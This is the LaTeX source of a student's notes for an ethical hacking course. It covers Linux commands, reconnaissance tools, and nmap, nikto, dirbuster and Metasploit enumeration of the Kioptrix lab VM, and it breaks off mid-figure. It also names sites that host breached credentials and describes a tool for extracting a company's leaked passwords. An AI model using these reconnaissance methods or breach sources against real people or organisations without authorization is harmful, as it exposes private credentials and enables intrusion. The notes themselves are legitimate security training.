\documentclass[a4paper,11pt]{article}

\usepackage[english]{babel} % allows for certain characters and translation
\usepackage{fancyhdr} % for headers, presumably
\usepackage{extramarks} % for more header stuff
\usepackage{amsmath} % for math
\usepackage{amsthm} % for theorem syntax
\usepackage{amsfonts} % for fonts
\usepackage{blindtext} % 'lorem ipsum dolor sit amet'
\usepackage{hyperref} % hyperlinks
\usepackage{hyphenat} % enable hyphenation of monospace or non-alphabetical fonts
\usepackage[utf8]{inputenc} % add different input encoding.
\usepackage{xurl} % better URL features
\usepackage{etoolbox,refcount} % manage counters for stuff like figure numbers
\usepackage{multicol} % easily set up columned text
\usepackage{xcolor} % define your own colors
\usepackage[bottom,symbol]{footmisc} % stick footer to bottom
\usepackage{chngcntr} % changing counters for auto-numbered stuff
\counterwithin{figure}{section} % makes it so that figures are numbered according to their section
\counterwithin{table}{section}
\usepackage{caption} % more caption capabilities
\usepackage{listings} % for adding programming code syntax
\usepackage{adjustbox} % make tables fit
\usepackage{wrapfig} % for wrapping figures around text
\usepackage{booktabs}% http://ctan.org/pkg/booktabs
\newcommand{\tabitem}{~~\llap{\textbullet}~~}
\usepackage{tikz} % for high-quality flowcharts and diagrams
\usetikzlibrary{shapes.geometric, arrows}
\usepackage{footnote} % because regular footnotes don't work in tables
\usepackage{longtable} % Multi-page tables
\usepackage{tabu} % To make the longtable fit the page width
\usepackage{color,soul}
\usepackage{enumitem} % Make numbers in enumerated list bold
\usepackage{tipa} % for typing in \textpipe

%
% Basic Document Settings
%
\topmargin=-0.45in
\evensidemargin=0in
\oddsidemargin=0in
\textwidth=6.5in
\textheight=9.0in
\headsep=0.25in
\linespread{1.1}
\renewcommand\headrulewidth{0.4pt}
\renewcommand\footrulewidth{0.4pt}
\setlength\parindent{0pt}
\definecolor{darkblue}{rgb}{0.0, 0.0, 0.55}
\definecolor{tt}{rgb}{0.0, 0.4, 0.9}
\definecolor{verbatim}{rgb}{0.0, 0.4, 0.9}
\hypersetup{
	colorlinks=true,       % false: boxed links; true: colored links
	linkcolor=darkblue,        % color of internal links
	citecolor=darkblue,        % color of links to bibliography
	filecolor=magenta,     % color of file links
	urlcolor=darkblue         
}
\renewcommand{\thefootnote}{\fnsymbol{footnote}}
\lstset{
  basicstyle=\ttfamily,
  columns=fullflexible,
  breaklines=true,
  postbreak=\raisebox{0ex}[0ex][0ex]{\color{red}$\hookrightarrow$\space}
}
\renewcommand{\tt}[2][tt]{\textcolor{#1}{\ttfamily #2}}% \texttt[<color>]{<stuff>}
\renewcommand{\textbf}{\bf}
% setup for tikz diagram shapes and colors
\tikzstyle{startstop} = [rectangle, rounded corners, minimum width=3cm, minimum height=3cm, text centered, draw=black, fill=red!30]
\tikzstyle{io} = [trapezium,trapezium left angle=70, trapezium right angle=110, minimum height=1cm, text centered, draw=black, fill=blue!30]
\tikzstyle{process} = [rectangle, minimum width=3cm, minimum height=3cm, text centered, draw=black, fill=green!30]
\tikzstyle{arrow} = [thick, ->, >=stealth]

%
% Title Page
%
\title{
    \vspace*{1cm}
    \centering
    \includegraphics[width=1\textwidth]{images/hacker.jpg}
    \\[-4.7cm]
    \vspace{2in}
    \textmd{\textbf{Practical Ethical Hacking}}\\
    \normalsize\vspace{0.1in}\small{Notes for the Udemy course}\\
    \vspace{0.1in}\large{\textit{Summer 2020}}
    \vspace{2.7in}
}
\author{Benjamin C. Ruddy}
\date{}

%++++++++++++++++++++++++++++++++++++++++

\begin{document}

\begin{titlepage}
\clearpage\maketitle
\thispagestyle{empty}
\end{titlepage}
\pagebreak
\begin{abstract}
\noindent These notes serve as a condensed guide for the different information, tools, and procedures outlined in chapters 1 through 26 of the Udemy course \textit{Practical Ethical Hacking - The Complete Course}, available on Udemy through the CBHS Cybersecurity Club account.
\end{abstract}


\section{Resources}

For a list of names and download links of necessary software and tools visit:
\begin{itemize}
\label{resources}\item{\url{https://github.com/Gr1mmie/Practical-Ethical-Hacking-Resources}
\footnote[2]{Consider simply installing these as you go along, rather than all at once, before starting the course.}
}
\end{itemize}
For a list of common technical problems in the course and their solutions visit:
\begin{itemize}
\item{\url{https://github.com/hmaverickadams/Practical-Ethical-Hacking-FAQ}}
\end{itemize}


\section{Introduction}

A few points:
\begin{itemize}
    \item Course taught by Heath Adam, a Senior Security Engineer @ TCM Security.
    \item Course places heavy emphasis on practical hacking and pen-testing.
\end{itemize}
\begin{center}
    \textbf{Topics covered:}
\end{center}
\begin{multicols}{2}
\begin{itemize}
    \item Introduction
    \item Effective Notekeeping
    \item Networking Refresher
    \item Introductory Linux
    \item Introductory Python
    \item External Network Hacking
    \item Active Directory Exploitation
    \item Web Application Exploitation
    \item Wireless Exploitation
    \item Report Writing
    \item Career Advice
\end{itemize}
\end{multicols}


\section{Notekeeping}

Please reference the linked Github repo on page~\pageref{resources} for an expanded list of notekeeping options.
\\
\\
An example setup would be:
\begin{itemize}
    \item \href{https://joplinapp.org/}{Joplin} for notetaking.
    \begin{itemize}
        \item or {\LaTeX} if you are obnoxious like me.
    \end{itemize}
    \item \href{https://getgreenshot.org/}{Greenshot} for taking screenshots of your work.
    \begin{itemize}
        \item \href{https://flameshot.js.org/#/}{Flameshot} if you are on Linux.
    \end{itemize}
\end{itemize}


\section{Networking refresher}

Basically, be familiar with the following:
\begin{enumerate}
    \item The OSI model and its contained topics (i.e. IP \& MAC addresses, network devices, ...)
    \item Common network ports and their uses (e.g. HTTP, SMTP, SSH, FTP, NetBIOS)
    \item Subnetting\footnote[1]{Watch the Professor Messer video on the subject (\href{https://www.youtube.com/watch?v=ZxAwQB8TZsM}{linked here}). The Udemy video is not as good at explaining it.}\footnote[2]{Note that you do not need to fully understand the subnetting procedure for the purposes of ethical hacking. A cursory overview should be suitable for this course.}
\end{enumerate}
\begin{center}
    \begin{tabular}{ c c }
        \includegraphics[width=0.5\textwidth]{images/osi.png}
        \\
        \small{Figure 4.1: The OSI Model. AKA the networking hamburger... yum.}
        \\
        \\
        \includegraphics[width=0.7\textwidth]{images/ports.png}
        \\
        \small{Figure 4.2: Common UDP/TCP ports and the services that run on them.}
        
    \end{tabular}
\end{center}


\section{Setting up the lab}

A Virtual Machine environment running Kali Linux is generally ideal for penetration testing.
\\
\\
Options include:
\begin{multicols}{2}
\begin{itemize}
    \item \href{https://www.virtualbox.org/wiki/Downloads}{VirtualBox}, recommended for ease of use and amount of features.
    \item \href{https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html}{VMware Workstation Player}, mainly useful if you have access to a paid license.
    \item \href{https://www.linux-kvm.org/page/Main_Page}{KVM}, if you're running Linux and feeling quirky... 
\end{itemize}
\end{multicols}

Make sure you have access to the internet upon loading the VM. Some network configuration through your VM's settings might be needed, such as switching to the Bridged Adapter mode instead of NAT.

\section{Introduction to Linux}

Know your way around the linux terminal and be familiar with bash syntax for scripting.\footnote[2]{Stay mindful of commands that require elevated privileges. If you're running Linux on a non-root account, many commands will not work or will simply not appear if not run with \tt{sudo}.}
\\
\\
\tiny{(Note that the \tt{\$} symbols below are there to indicate that they are Linux terminal ({\bfseries bash}) commands, do \textit{not} type them into your terminal)}
\\
\begin{table}[h]
    \centering
    \begin{adjustbox}{width=1\textwidth}
    \begin{tabular}{|l|l|l|}
        \hline
        \multicolumn{3}{|c|}{\bf{File system navigation}}
        \\
        \hline
        \tt{\$ cd <directory or filepath>} & \tt{\$ pwd} & \tt{\$ ls -lah}
        \\
        Change Directory & Print Working Directory & List all contents, human readable
        \\
        \hline
        \tt{\$ mkdir <directory path>} & \tt{\$ rmdir <directory path>} & \tt{\$ cp <file origin> <file dest>}
        \\
        Make Directory & Remove Directory & Copy
        \\
        \hline
        \tt{\$ locate <filename>} & \tt{\$ cat <filename>} & \tt{\$ touch <filename>}
        \\
        Locate a file & Show text of a file & Create new empty file
        \\
        \hline
        \multicolumn{3}{|c|}{\bf{Users and privileges}}
        \\
        \hline
        \tt{\$ sudo <command>} & \tt{\$ chmod} & \tt{\$ chown}
        \\
        Run a command as superuser & Change access permissions & Change ownership of a file/directory
        \\
        \hline
        \tt{\$ chroot <directory>} & \tt{\$ adduser <username>} & \tt{\$ passwd <username>}
        \\
        Change the location of the root directory & Add a user & Change the password of a user
        \\
        \hline
        \tt{\$ ip addr} & \tt{\$ ping <ip>} & \tt{\$ arp -a}
        \\
        Show host IPs & Test network connection to an IP & Show the system ARP cache
        \\
        \hline
        \tt{\$ nestat -a} & \tt{\$ route} & \tt{\$ dig <ip>}
        \\
        Show network information \& Port statistics & Show system IP routing table & Grope DNS information
        \\
        \hline
        \multicolumn{3}{|c|}{\bf{Starting and stopping services}}
        \\
        \hline
        \tt{\$ service <name> <start/stop>} & \tt{\$ python3 -m SimpleHTTPServer} & \tt{\$ systemctl enable <name>}
        \\
        Start or stop a service & Supposedly better HTTP server & Enable a service at boot
        \\
        \hline
        \multicolumn{3}{|c|}{\bf{Installing and updating tools (Debian systems)}}
        \\
        \hline
        \tt{\$ apt update} & \tt{\$ apt upgrade} & \tt{\$ git clone <git URL>}
        \\
        Update package sources & Update installed packages & Clone a git repo
        \\
        \hline
    \end{tabular}
    \end{adjustbox}
    \caption{Essential Linux terminal commands}
    \label{fig:mustknow}
\end{table}
\pagebreak
\begin{figure}[h]
    \centering
    \includegraphics[width=0.9\textwidth]{images/bashsample.png}
    \caption{The bash script from video \#25}
    \label{fig:bash}
\end{figure}


\section{Python}

\normalsize Learn the Python syntax and programming fundamentals such as for loops, functions, parameters, modules... Then, understand how to write a simple IP scanning script.
\begin{figure}[h]
    \centering
    \includegraphics[width=0.85\textwidth]{images/pysample.png}
    \caption{The python IP scanner from video \#41}
    \label{fig:py}
    \vspace{-5cm}
\end{figure}
\pagebreak


\section{The Ethical Hacker methodology}
The general ethical hacking process can be modeled as follows:
\vspace*{1cm}
\begin{figure}[h]
    \centering
    \label{fig:stages}
    
\begin{tikzpicture}[node distance=3cm]
    
    \node (start) [startstop, draw, align=center] {1. Reconnaissance\\\small{\textit{(Active or Passive)}}};
    \node (in1) [io, below of=start, draw, align=center] {2. Scanning \& Enumeration\\\small{\textit{(Nmap, Nessus, Nikto, etc.)}}};
    \node (pro1) [process, below of=in1, draw, align=center] {3. Gaining Access / Exploitation};
    \node (out1) [io, below of=pro1, draw, align=center] {4. Maintaining Access\\\small{\textit{(e.g. a backdoor)}}};
    \node (stop) [startstop, below of=out1, draw, align=left] {5. Covering Tracks};
    
    \draw [arrow] (start) -- (in1);
    \draw [arrow] (in1) --  (pro1);
    \draw [arrow] (pro1) -- (out1);
    \draw [arrow] (out1) -- (stop);
    
    \end{tikzpicture}
\end{figure}
\\
\\
\begin{center}
As shown in the diagram, a typical penetration testing process involves much more than blindly ``hacking'' a host on a network.
\end{center}
\pagebreak


\section{Information gathering}

\subsection{Types of reconnaissance}

\begin{longtable}{c|c}
    \bf{Passive} & \bf{Active}
    \\
    \small{(Does not directly interact with the target)} & \small{(Interacts with the target directly.)}
    \\
    \bottomrule
    Looking through a public website & Port scanning\footnote[2]{TCP/UDP Ports, such as FTP/21, or HTTP/80.}
    \\
    Dumpster diving & A \tt{traceroute}\footnote[1]{A is a terminal command to track the path from one network host to another.} scan
    \\
    Reading the news about a company & DNS lookup (e.g. \tt{dig}\footnote[3]{Domain Information Groper.})
    \\
    Looking at an employee's LinkedIn page & OS Fingerprinting\footnote[4]{Detection of operating system on a network host.}
\end{longtable}

\subsection{Reconnaissance procedure}

For open vulnerability and bug bounty programs, consider:
\begin{itemize}
    \item Hackerone (\url{https://hackerone.com/ibb-openssl?type=team})
    \item Bugcrowd (\url{https://bugcrowd.com/programs})
\end{itemize}
\begin{figure}[h]
    \centering
    \includegraphics[width=0.9\textwidth]{images/webprocess.png}
    \caption{Common tools for web penetration testing}
    \label{fig:webprocess}
\end{figure}

\subsubsection{E-mail gathering}

\url{hunter.io} provides not only the emails of employees under a company or organization, but also their \textit{format}.
\begin{itemize}
    \item \url{https://hunter.io/}
\end{itemize}

\subsubsection{Gathering breached credentials}

Finding leaked credentials -- such as the breached \textit{Equifax} or \textit{Dailymotion} data -- is a matter of time and effort. The older the breached info is, the harder it will be to acccess in most cases, and the deeper in the darkweb they will be. That being said, you may or may not find some of them on:
\begin{itemize}
    \item \url{https://pastebin.com}
    \item \url{https://raidforums.com/}
    \item \url{https://snusbase.com/} (paid)
    \item \url{https://www.dehashed.com/} (paid)
    \item \url{https://leak-lookup.com/} (paid)
\end{itemize}
\tt{breach-parse} is a tool made by the teacher of this course that sorts breached data and extracts usernames and passwords by company/group. Note that it provides its own magnet link to download a sample data breach as a torrent.
\begin{itemize}
    \item \url{https://github.com/hmaverickadams/breach-parse}
    \item Usage: \tt{\$ ./breach-parse @<example.domain> <output filename>}
\end{itemize}
\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/breachparse.png}
    \caption{Sample output of \textit{Tesla} credentials using breach-parse}
    \label{fig:breachparse}
\end{figure}
\pagebreak

\subsubsection{Subdomain hunting}

\tt{sublist3r} provides considerably detailed subdomain listings for a given domain.
\begin{itemize}
    \item \tt{\$ sudo apt install sublist3r}
    \item Usage: \tt{\$ sublist3r -d <exammple.domain>}
    \item To probe resulting web addresses, use a tool like httprobe and find out which ones remain active and online.
    \begin{itemize}
        \item \url{https://github.com/tomnomnom/httprobe}
    \end{itemize}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.6\textwidth]{images/sublist3r.png}
    \caption{\tt{sublist3r} terminal banner}
    \label{fig:sublist3r}
\end{figure}

\tt{theHarvester}, provides a variety of other information such as subdomains, emails, open ports, banners, and employee names. \textit{``Jack of all trades, master of none.''}
\begin{itemize}
    \item Usage: \tt{\$ theHarvester -d <example.domain>}
\end{itemize}
\url{crt.sh}, like sublist3r, also provides an extensive search for subdomains of a given domain. This time, in a web format.
\begin{itemize}
    \item \url{https://crt.sh/}
\end{itemize}

The big daddy of domain recon (and more!): \textit{OWASP Amass}. This quality, feature packed tool is one of the best out there in terms of gathering information and mapping an \textit{attack surface} when planning out a penetration test. It may take longer to install and set up, but it pays off considerably.
\begin{itemize}
    \item \url{https://github.com/OWASP/Amass}
    \item ``Why amass?'' + Real World Examples: \url{https://danielmiessler.com/study/amass/}
\end{itemize}

\begin{figure}[h]
    \vspace{-0.6cm}
    \centering
    \includegraphics[width=0.2\textwidth]{images/owasp.png}
    \caption{\small{OWASP logo}}
    \label{fig:owasp}
\end{figure}
\pagebreak

\subsubsection{Web reconnaissance}
\label{sub2sec:webrecon}

\url{builtwith.com} is a simple website to list out a large list of technologies being used on a target domain, without too many extra options.
\begin{itemize}
    \item \url{https://builtwith.com/}
\end{itemize}
\textit{Wappalyzer} is a browser extension that is even simpler than builtwith, but is better at giving you a clear idea about how a website is structured.
\begin{itemize}
    \item \url{https://www.wappalyzer.com/download}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.4\textwidth]{images/wapp.jpg}
    \caption{Wappalyzer browser output}
    \label{fig:wapp}
\end{figure}

\tt{whatweb} is similar to the previous tools, but in a terminal format.
\begin{itemize}
    \item Usage: \tt{\$ whatweb <example.domain>}
\end{itemize}

\subsubsection{Burpsuite intro}
\textit{Burpsuite} is a web security application that intercepts web traffic through a \textit{proxy}\footnote[2]{Proxy server: an application or appliance that acts as an intermediary for requests from clients seeking resources from servers.} to relay information about website communication. Will be covered more in-depth later.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.5\textwidth]{images/burpsample.png}
    \caption{A Burpsuite window with web traffic data}
    \label{fig:burpsample}
\end{figure}
\pagebreak

\subsubsection{Social media}
It is incredibly easy to find Personally Identifiable Information ({\bfseries PII})
online. Do not underestimate the carelessness of people on websites such as:
\begin{itemize}
    \item \href{https://www.linkedin.com/}{LinkedIn}
    \item \href{https://www.facebook.com/}{Facebook}
\end{itemize}
An accidental slip-up of showing and ID badge is often all you need to get started with the hacking process.


\section{Network scanning and Enumeration}

\subsection{Vulnerable Machines}
To begin we will be using \textit{kioptrix Level 1}, a vulnerable machine designed to prepare people for the Offensive Security Certified Professional ({\bfseries OSCP}) certificate.
\begin{itemize}
    \item \url{https://www.vulnhub.com/entry/kioptrix-level-1-1,22/}
\end{itemize}
The key in this challenge is running your Kali VM and the vulnerable VM on the same network. If you follow along with the Udemy course, you will learn how to do it with VMWare using the NAT setting on both VMs.
\\
\\
For the purpose of variety, I will set up the hacking environment in VirtualBox here. To do so, we can either use the \textit{Bridged Adapter}\footnote[1]{\textit{Bridged Adapter} lets you effectively create a new host on your IRL network using the same Network Interface Card ({\bfseries NIC}) that your PC uses. In other words, this literally adds a new system to whatever physical network you're on, so stick with the NAT Network option if you are not on a private network, e.g. your house.} Networking mode or the \textit{NAT Network} mode\footnote[2]{Not to be confused with the \textit{NAT} mode. On VirtualBox, \textit{NAT} mode will assign all machines the same IP and will not be on a network with each other. This is not the case on VMWare. Yes, it's confusing.}. If you want an isolated environment, using a NAT Network is perfect. If you want internet access while on the VMs, however, Bridged Adapter is the better choice.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.4\textwidth]{images/vboxsettings.png}
    \caption{VirtualBox Network Settings page, with \textit{Bridged Adapter} selected}
    \label{fig:vboxsettings}
    \vspace*{-1cm}
\end{figure}
\pagebreak

There are a few settings you have to adjust while setting up the kioptrix box on VirtualBox. With your Kali machine running, follow this guide to set up kioptrix.
\begin{itemize}
    \item \url{https://www.hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/}
\end{itemize}
After setting it up and launching it in \textit{Bridged Adapter} mode, run \tt{arp-scan -l} on your Kali machine to cinfirm that a MAC address belonging to ``PCS Systemtechnik GmbH,'' or ``VirtualBox, Inc.'' appears in the list. If it appears, congratulations! You now have a working testing environment (additionally, you have also learned how to scan for devices on your network by finding their ARP addresses).
\begin{itemize}
    \item \tt{netdiscover -r <subnet>} is also a valid way to scan MAC addresses. E.g. if your network hosts all start with 192.168.0.X, then you would pass \tt{192.168.0.0/24} as the \tt{subnet}.
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/kioptrix1.png}
    \caption{\small{kioptrix and Kali running on the same network}}
    \label{fig:kioptrix1}
\end{figure}

\subsection{Scanning with Nmap}

Recall that TCP connections use a \textit{three-way handshake} to establish a connection. Looking out for possible connections, but sending a TCP RST (\textit{reset}) frame at the last moment, is one of the ways that the tool \tt{nmap} reaches out and maps networks.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.1\textwidth]{images/nmap.png}
    \caption{\tt{nmap}, the quintessential network scanner for ethical hackers}
    \label{fig:nmap}
\end{figure}
\pagebreak

Scan the vulnerable machine by running an nmap scan on it (obtained from the ARP scan before).
\begin{itemize}
    \item \tt{nmap -T4 -p- -A <Kioptrix IP>}
    \begin{itemize}
        \item \tt{-T<0-5>}: Scan speed, where 0 is slowest and 5 is fastest (but may skip over certain elements)
        \item \tt{-p-}: Scan all ports
        \item \tt{-A}: "Aggresive scan." Enables OS detection, version detection, script scanning, and traceroute.
        \item \tt{--help} for more scan types and options, such as \tt{-sU} for UDP.
        \begin{itemize}
            \item Use \tt{-p} instead of \tt{-p-} for UDP because scans take a lot longer.
        \end{itemize}
    \end{itemize}
\end{itemize}

\begin{figure}[h]
    \vspace{-0.5cm}
    \centering
    \includegraphics[width=0.9\textwidth]{images/nmapk1.png}
    \caption{Nmap scan on the vulnerable kioptrix machine}
    \label{fig:nmapk1}
    \vspace{-1cm}
\end{figure}
\pagebreak

\subsection{Enumerating HTTP/HTTPS}

Congratulations, you have successfully scanned a victim machine! Where to now?
\subsubsection{Open ports}

We now know that ports \tt{22} (SSH), \tt{80} (HTTP), \tt{111} (rpcbind), \tt{139} (Netbios/Samba), \tt{443} (HTTPS), and \tt{32768} (RPC) are open on this machine. Knowing this, let's get some further context:
\begin{itemize}
    \item \tt{SSH}/22 has historically been pretty robust in terms of security, given the fact that it was specifically designed as a secure alternative to the insecure \tt{telnet}/23 protocol. Let's keep looking for low-hanging fruit first.
    \item Ports \tt{80}, \tt{443}, and \tt{139} may just be what we need. Web services, for example, have \textit{huge} opportunities for vulnerabilities, as we saw before with the overview of web penetration-testing in Section 9.% TO-DO: page-ref
    And, the Samba (SMB) service has had a long history of exploitation and cracking, notably the \textit{WannaCry} Ransomware, that took over the world by storm in 2017.
\end{itemize}
Wait, our host is running a web service? {\bfseries Then let's try accessing it through a web browser!}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.9\textwidth]{images/apachek1.png}
    \caption{Voilà: a non-configured, default Apache landing page.}
    \label{fig:apachek1}
\end{figure}

\begin{wrapfigure}{r}{0.3\textwidth}
  \begin{center}
    \includegraphics[width=0.3\textwidth]{images/nikto.jpg}
  \end{center}
  \caption{Nikto}
  \label{fig:nikto}
\end{wrapfigure}
Had the administrators kept track with this machine's security, the web ports would not be open for us to see a default landing page. Thus, we can begin to see clear signs of poor \textit{sanitisation}. Moving on...
\\
\\
\subsubsection{Nikto}
Much like how Nmap points us towards potential vulnerabilities on network hosts, \textit{Nikto} points us towards potential web server vulnerabilities based on hosted files, outdated software, and potential bug threats.
\pagebreak

With that said, scan the target with the following:
\begin{itemize}
    \item \tt{\$ nikto -h <target IP/URL>}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.7\textwidth]{images/niktok1.png}
    \caption{Nikto output after scanning kioptrix}
    \label{fig:niktok1}
\end{figure}

Let's go through some of the output:
\begin{itemize}
    \item \tt{+ <service name> apears to be outdated}: General statements about security that should be written down on your pen-test report for a client to update their services.
    \item \tt{+ Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392}: A Denial of Service ({\bfseries DoS}) is usually out of scope for a pen-test, since it often just involves taking the server offline, which may not be ideal if you want to compromise it and gain access.
    \\
    {\bfseries Possible code execution}, on the other hand, is worth noting because it gives us a more direct path to owning ({\bfseries pwning}) the machine.
    \item \tt{+ mod\_ssl/2.8.4 - mod\_ssl 2.8.7 \& lower are vulnerable to a remote bufferoverflow, allowing a remote shell.}: An opportunity for a remote \textit{buffer overflow} attack. A little more sophisticated, but still an option.
    \item \tt{+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST}: \textit{HTTP TRACE} is an HTTP method that is designed for diagnostic purposes, and if left on, can lead to Cross-Site Tracing ({\bfseries XST}). We won't worry about it for now, but when we get to web app hacking, it will be more relevant.
    \item Directories: Locations such as \tt{/test.php} or \tt{/usage/} are directories on the machine that are great opportunities at discovering more about its inner workings. There is a term for scouring through these: {\bfseries directory busting}. Often times these are places on the site that should not be public, and can be searched for with \textit{wordlist} text files.
\end{itemize}
Now that we have a bit of information to digest, don't forget to store the output! The simplest way to do so is to redirect the terminal output of a command with the \tt{>} symbol. For example, if we want to have it all under a text file called \tt{output.txt} in \tt{Documents/kioptrix}, we could say: \tt{nikto -h X.X.X.X > ~/Documents/kioptrix/output.txt}.
\\
\\
This works for practically any command that produces output text, so feel free to use it for other scans such as \tt{nmap}.

\subsubsection{Busting directories}
\label{sub2sec:bustingdir}

As we've discovered before, there are open directories on the web server that may have valuable information. To start the directory busting process, run:
\begin{itemize}
    \item \tt{\$ dirbuster}
    \begin{itemize}
        \item Other tools for directory busting include \tt{dirb} as well as \tt{gobuster}.
    \end{itemize}
\end{itemize}
A GUI window will pop up. All we really need to input is the URL (note the syntax in the example), a directory wordlist (Kali has some by default), and the types of directories we want.
\\
\\
We'll just use php for this scan, but js, pdf, docx, and other types are perfectly reasonable inclusions.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.2\textwidth]{images/dirbusterlogo.png}
    \caption{AWASP \tt{dirbuster} logo}
\end{figure}
\pagebreak

\begin{figure}[h]
    \centering
    \includegraphics[width=0.6\textwidth]{images/dirbuster1.png}
    \caption{\tt{dirbuster} about to run against the victim machine.}
    \label{fig:dirbuster1}
\end{figure}

After checking the ``Go Faster'' option, and leaving the default php option, leave DirBuster running and take a moment to look at the HTML source code on the page for possible code comments. Get familiar with HTML syntax if you need to.
\\
\\
While waiting, it is worth usign \textit{Burpsuite} to learn more about the structure of the site. Opening the program, configure your proxy settings to use 127.0.0.1 (the {\bfseries loopback IP}), and go to Burpsuite.
From here, you can reload the site and see the traffic info as it comes along in the \textit{Proxy} tab.\footnote[2]{Refer to course video \#51 for Burpsuite setup instructions.} Now, under the ``Target'' tab, go to Scope, and include the machine IP in the scope by clicking ``Add'' and typing its address. After loading the website and clicking ``Forward'' to load through the traffic, we can go into \textit{Target} > \textit{Response} to see response and header information.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.6\textwidth]{images/burpresponse.png}
    \caption{Coming full circle. We have re-discovered the server's OS, this time in Burp.}
    \label{fig:burpresponse}
\end{figure}
\pagebreak

With a little bit of tinkering, we now have an introductory knowledge of Burpsuite. Although Nikto identified certain pieces of information faster, that may not always be the case. Additionally, this Burp knowledge will come into play later on.
\\
\\
After letting it run for some time, take a moment to go through our DirBuster output:
\begin{figure}[h]
    \centering
    \includegraphics[width=0.6\textwidth]{images/dirbuster_output.png}
    \caption{DirBuster output, in the `tree' format}
    \label{fig:dirbuster_output}
\end{figure}
\\
Some directories provide more opportunities than others. There may or may not be something useful here for when we proceed to ultimately exploiting this machine; that will remain up to you for now. Regardless, we have now added \textit{directory busting} to our arsenal!


\par\noindent\rule{\textwidth}{0.4pt}
\begin{center}
    {\bfseries INTERLUDE: HTTP STATUS CODES}
\end{center}
Let's take a quick breather to talk about {\bfseries HTTP Status Codes}. You may have seen from figure \ref{fig:burpresponse} the status code `\tt{HTTP/1.1 304 Not Modified}' and wondered what it meant. Or even more broadly, errors like the classic `\tt{404 Not Found}.' These are all HTTP status codes that follow a numbering scheme, and knowing it can be quite useful.
\begin{itemize}
    \item {\bfseries 1XX}: Informational status codes. Rarely found or used.
    \item {\bfseries 2XX}: Success status codes. E.g. \tt{200} for a general 'SUCCESS' message, or \tt{204} for a 'SUCCESS' message that specifies no internal message content.
    \item {\bfseries 3XX}: Redirect status codes. E.g. \tt{301} for a permanent site relocation.
    \item {\bfseries 4XX}: Client-side error codes. E.g. \tt{404} upon requesting a non-existent page.
    \item {\bfseries 5XX}: Server-side error codes. Most commonly, \tt{500} (general server error).
\end{itemize}
\begin{center}
    {\bfseries END INTERLUDE}
\end{center}
\par\noindent\rule{\textwidth}{0.4pt}


\subsection{Enumerating SMB}
\subsubsection{Metasploit for SMB detection}

Recall from figure \ref{fig:nmapk1} on page \pageref{fig:nmapk1} that the target server has an open SMB port, \tt{139}. But what exactly is SMB?
\begin{itemize}
    \item {\bfseries Server Message Block} (SMB): a network communication protocol for providing shared access to files, printers, and serial ports between nodes on a network.
\end{itemize}
In other words, it is a protocol to share things on a network with other people. Historically, SMB has been the target of \textit{many} attacks, and is a prime target for exploitation. With that said, let's get to enumerating SMB with {\bfseries Metasploit}. To start, run:
\begin{itemize}
    \item \tt{\$ msfconsole}
\end{itemize}
By the end of this course, you will be intimately familiar with this arguably legendary tool.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.7\textwidth]{images/metasploit.png}
    \caption{Metasploit, one of the most famous tools for pen-testing}
    \label{fig:metasploit}
\end{figure}

Now, as done in figure \ref{fig:metasploit}, type in \tt{search smb}. This is a relatively inefficient way to search through many exploits, but for our purposes it will suffice. We will now look for an \textit{auxiliary} exploit to find out more about the SMB service the target machine is running.

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/metasploitsmbsearch.png}
    \caption{The (admittedly messy) metasploit results for our '\tt{smb}' search}
    \label{fig:metasploitsmbsearch}
\end{figure}

Since we are looking to \textit{enumerate} still, as opposed to exploiting, an \textit{auxiliary} exploit, rather than a \tt{post}, for example. \tt{auxiliary/scanner/smb/smb\_version} seems to be the best fit for what we're looking for. Let's load up the exploit:
\begin{itemize}
    \item \tt{use auxiliary/scanner/smb/smb\_version} to load it within the metasploit console
    \item \tt{info} for a full list of exploit information; \tt{options} to skip directly to the usage
    \item \tt{set RHOSTS <host address>} to specify our kioptrix target.
    \item \tt{run} to carry out the exploit with metasploit
\end{itemize}
\pagebreak

\begin{figure}[ht]
    \centering
